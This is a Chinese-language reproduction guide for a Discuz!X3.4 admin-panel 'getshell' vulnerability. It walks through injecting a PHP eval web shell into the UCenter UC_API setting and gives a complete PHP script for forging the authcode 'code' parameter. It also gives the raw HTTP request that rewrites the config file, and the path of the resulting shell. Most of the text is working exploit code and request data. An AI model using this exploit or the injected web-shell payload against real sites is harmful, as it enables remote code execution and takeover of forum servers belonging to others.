


# Discuz!X3.4 后台修改UCenter配置getshell漏洞

## 漏洞复现

漏洞利用流程如下：

1. 进入后台`站长`-`UCenter设置`，修改UCenter通信密钥为`123456`。
2. 修改UC_API=`http://your-ip/discuz!x3.4/uc_server');eval($_POST[cmd]);//`，点击保存。
3. 利用UC_KEY(dz) 生成code参数，执行脚本`php ucode.php`生成code。
4. Burpsuite带code参数发送GET请求，结果为1表示成功。



生成code参数的脚本 ucode.php：

```php
<?php
$uc_key="123456";//此处填写刚才UCenter设置的值
$time = time() + 720000;
$str = "time=".$time."&action=updateapps";
$code = authcode($str,"ENCODE",$uc_key);
$code = str_replace('+','%2b',$code);
$code = str_replace('/','%2f',$code);
echo $code;

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
  $ckey_length = 4;
  $key = md5($key != '' ? $key : '123456');
  $keya = md5(substr($key, 0, 16));
  $keyb = md5(substr($key, 16, 16));
  $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

  $cryptkey = $keya.md5($keya.$keyc);
  $key_length = strlen($cryptkey);

  $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
  $string_length = strlen($string);

  $result = '';
  $box = range(0, 255);

  $rndkey = array();
  for($i = 0; $i <= 255; $i++) {
    $rndkey[$i] = ord($cryptkey[$i % $key_length]);
  }

  for($j = $i = 0; $i < 256; $i++) {
    $j = ($j + $box[$i] + $rndkey[$i]) % 256;
    $tmp = $box[$i];
    $box[$i] = $box[$j];
    $box[$j] = $tmp;
  }

  for($a = $j = $i = 0; $i < $string_length; $i++) {
    $a = ($a + 1) % 256;
    $j = ($j + $box[$a]) % 256;
    $tmp = $box[$a];
    $box[$a] = $box[$j];
    $box[$j] = $tmp;
    $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
  }

  if($operation == 'DECODE') {
    if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
      return substr($result, 26);
    } else {
      return '';
    }
  } else {
    return $keyc.str_replace('=', '', base64_encode($result));
  }
}
?>
```

带code参数发送GET请求：



请求数据包：

```
GET /discuz!x3.4/api/uc.php?code=ac7091oTLALD6X24gZeiX5YmqDkLnX4ivIqx1jDnA7NhUAcHHOX3fWWOLWpGwSwfQfz4r5Pgf86bRlDTRkQ% HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ar;q=0.8
Connection: close
Content-Length: 133

<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
<item id="UC_API">http://your-ip/discuz!x3.4/uc_server</item>
</root>
```

Shell 地址：

```
http://your-ip/discuz!x3.4/config/config_ucenter.php
```

